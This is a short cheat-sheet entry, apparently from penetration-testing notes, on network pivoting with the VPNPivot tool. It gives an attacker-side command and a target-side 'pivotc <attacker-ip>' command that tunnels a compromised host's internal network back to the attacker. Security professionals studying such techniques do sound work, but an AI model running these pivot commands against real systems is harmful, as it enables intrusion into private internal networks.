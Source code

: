 # Pivoting

## VPNPivot

#### On attacker machine

`$ sudo pivots -i <iface> -p <port> -H <mac> -v`

* __iface__ - is the virtual interface for the vpn itself, as example openvpn often creates tap0 or tun0, you can choose whaterver you want, like pwn0;
* __mac__ - MAC address for the newly created device;
* __port__ - whatever unused port you want


#### On target machine

`$ sudo pivotc <attacker-ip> <previously defined port> <internal network gateway ip>`